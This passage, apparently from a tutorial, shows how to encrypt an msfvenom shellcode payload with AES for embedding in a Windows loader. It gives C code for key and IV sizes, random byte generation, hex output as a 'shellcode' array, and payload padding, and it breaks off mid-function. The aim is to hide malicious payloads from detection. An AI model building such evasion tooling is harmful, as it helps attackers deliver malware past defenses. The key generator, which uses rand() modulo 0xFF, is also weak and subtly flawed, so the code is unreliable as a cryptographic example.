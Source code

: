 So i suggest you to create a new file, where you’ll paste the plaintext msfvenom payload

you’ll also need to define size of the **IV** and the **KEY.**

```
#define KEYSIZE 32   // 32 bytes for AES256
#define IVSIZE 16    // 16 bytes for AES
```

I suggest you to create a function to generate random bytes (for the key and the IV)

```c
// Generate random bytes of size sSize
VOID GenerateRandomBytes(PBYTE pByte, SIZE_T sSize) {

	for (int i = 0; i < sSize; i++) {
		pByte[i] = (BYTE)rand() % 0xFF;
	}

}
```

There is also a print function for convenience : 

```c
// Print the input buffer as a hex char array
VOID PrintHexData(LPCSTR Name, PBYTE Data, SIZE_T Size) {
	if (strcmp(Name, "shellcode") == 0){printf("byte %s[%d] = {", Name,Size);}
	else {printf("unsigned char %s[] = {", Name);}
	for (SIZE_T i = 0; i < Size; i++) {
		if (i % 16 == 0)
			printf("\n\t");

		if (i < Size - 1)
			printf("0x%02X, ", Data[i]);
		else
			printf("0x%02X ", Data[i]);
	}

	printf("\n};\n\n");
}

```

Because the payload needs to be a multiple of 16 for tiny-aes to work, we also need a padding function : 

```c

BOOL PaddBuffer(IN PBYTE InputBuffer, IN SIZE_T InputBufferSize, OUT PBYTE* OutputPaddedBuffer, OUT SIZE_T* OutputPaddedSize) {

	PBYTE	PaddedBuffer = NULL;
	SIZE_T	PaddedSize = 0;

	// calculate the nearest number that is multiple of 16 and saving it to PaddedSize
	PaddedSize = InputBufferSize + 16 - (InputBufferSize % 16);
	// allocating buffer of size "PaddedSize"
	PaddedBuffer = (PBYTE)HeapAlloc(GetProcessHeap(), 0, PaddedSize);
	if (!PaddedBuffer) {
		return FALSE;
	}
	// cleaning the allocated buffer
	ZeroMemory(PaddedBuffer, PaddedSize);
	// copying old buffer to new padded buffer
	memcpy(PaddedBuffer, InputBuffer, InputBufferSize);
	//saving results :
	*OutputPaddedBuffer = PaddedBuffer;
	*OutputPaddedSize = PaddedSize;
```